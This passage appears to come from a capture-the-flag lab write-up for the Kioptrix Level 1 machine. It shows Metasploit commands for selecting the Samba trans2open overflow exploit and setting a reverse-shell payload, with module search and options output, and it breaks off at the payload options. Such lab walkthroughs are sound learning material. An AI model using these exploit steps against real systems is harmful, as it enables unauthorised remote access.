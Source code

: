 ![kioptrix Level 1 Samba SMB CVE](/assets/img/posts/Kioptrix_level_1/Kioptrix-level-1_cve-2003-201.webp) _Samba CVE-2003-201 trans2open_

Still on metasploit, search for **trans2open**:

```console
msf6 > search trans2open

Matching Modules
================

   #  Name                              Disclosure Date  Rank   Check  Description
   -  ----                              ---------------  ----   -----  -----------
   0  exploit/freebsd/samba/trans2open  2003-04-07       great  No     Samba trans2open Overflow (*BSD x86)
   1  exploit/linux/samba/trans2open    2003-04-07       great  No     Samba trans2open Overflow (Linux x86)
   2  exploit/osx/samba/trans2open      2003-04-07       great  No     Samba trans2open Overflow (Mac OS X PPC)
   3  exploit/solaris/samba/trans2open  2003-04-07       great  No     Samba trans2open Overflow (Solaris SPARC)

Interact with a module by name or index. For example info 3, use 3 or use exploit/solaris/samba/trans2open
```

Choose option number 1 using the `use 1` command.
We need to choose the payload to use once we're able to exploit. Let's use a **reverse shell payload** in order to have remote shell connection, which is the `set payload linux/x86/shell_reverse_tcp` command.
Using `options` command we can see what additional information we must provide before we can use the exploit (under the Required column). lastly we'll execute the exploit using `exploit` command.

```console
msf6 > use 1
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp
msf6 exploit(linux/samba/trans2open) > options 

Module options (exploit/linux/samba/trans2open):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   139              yes       The target port (TCP)


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
```